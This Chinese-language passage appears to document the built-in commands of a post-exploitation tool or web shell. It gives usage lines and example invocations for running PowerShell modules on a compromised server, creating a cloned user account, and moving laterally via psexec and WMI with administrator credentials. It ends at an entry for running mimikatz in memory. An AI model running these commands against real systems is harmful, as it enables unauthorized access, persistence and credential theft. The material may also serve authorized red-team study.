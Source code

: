 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

#### #invoke_ps_module

在目标服务器上运行ps1脚本

```
`Usage：#invoke_ps_module ps_module [appended_code]``C:\Windows\Temp> #invoke_ps_module clone.ps1 ';Create-Clone -u betasec123 -p pass!@#123'`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

#### #invoke_ps_module_as

以特定用户身份在目标服务器上运行ps1脚本

```
`Usage：#invoke_ps_module_as ps_module username password [appended_code] [domain] [process_timeout_ms] [logon_type]``C:\Windows\Temp> #invoke_ps_module_as clone.ps1 betasec123 pass!@#123 ';Create-Clone -u betasec456 -p pass!@#123`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

#### #lateral_psexec

运行psexec进行横向移动

```
`Usage：#lateral_psexec target_ip username password command [local_user] [local_password] [local_domain]``C:\Windows\Temp> #lateral_psexec 192.168.1.108 administrator pass!@#123 'cmd /c whoami'`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

#### #lateral_wmi

运行内置WMI命令进行横向移动，需在Administrator权限下执行，SYSTEM权限执行提示：拒绝访问

```
`Usage：#lateral_wmi target_ip username password command [local_user] [local_password] [local_domain]``C:\Windows\Temp> #lateral_wmi 192.168.1.112 administrator pass!@#123 'cmd /c whoami'`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

#### #mimikatz

直接在内存中运行mimikatz，执行类型支持：ps1（默认）、exe、reflective_dll
